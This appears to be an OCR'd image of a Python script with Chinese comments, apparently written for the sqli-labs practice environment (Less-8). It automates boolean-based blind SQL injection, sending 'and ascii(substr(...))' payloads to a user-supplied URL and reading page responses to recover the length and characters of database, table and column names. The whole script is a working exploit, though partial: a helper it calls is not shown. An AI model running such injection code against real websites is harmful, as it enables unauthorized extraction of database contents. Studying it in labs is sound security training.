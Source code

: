 ```python

def length(data_select, url):
    url = url + "and"
    
    # 二分法：
    # min = 0
    # max = 127
    # while True:
    #     if (max - min) > 1:
    #         mid = int((min + max) / 2)
    #     else:
    #         mid = max
    #         break
    #     payload = url + data_select + "={} %23".format(i)
    #     re = requests.get(payload)
    #     if 'You are in' in re.text:
    #         min = mid
    #     else:
    #         max = mid
    # print('它的长度为：', i)
    # return mid
	
    # 直接循环猜
    for i in range(30):
        payload = url + data_select + "={} %23".format(i)
        re = requests.get(payload)
        if 'You are in' in re.text:
            print('它的长度为：', i)
            return i


if __name__ == '__main__':
    data = input('请输入你需要查找什么(database，tables，column)：')
    url = input("请先判断注入类型，再输入盲注地址：")
    # url = 'http://127.0.0.1/Sqli_Edited_Version-master/Less-8/?id=1''

    query1, query2 = select(data)
    dataLength = length(query2, url)
    result = ''

    print('开始盲注！')
    for i in range(1, 100):
        for j in range(65, 123):
            payload = "and ascii(substr((" + query1 + "),{},1))={} %23".format(i, j)
            r = requests.get(url + payload)
            if 'You are in' in r.text:
                result += chr(j)
                print(result)
                break
    print('程序执行结束，最终爆出：', result)
```
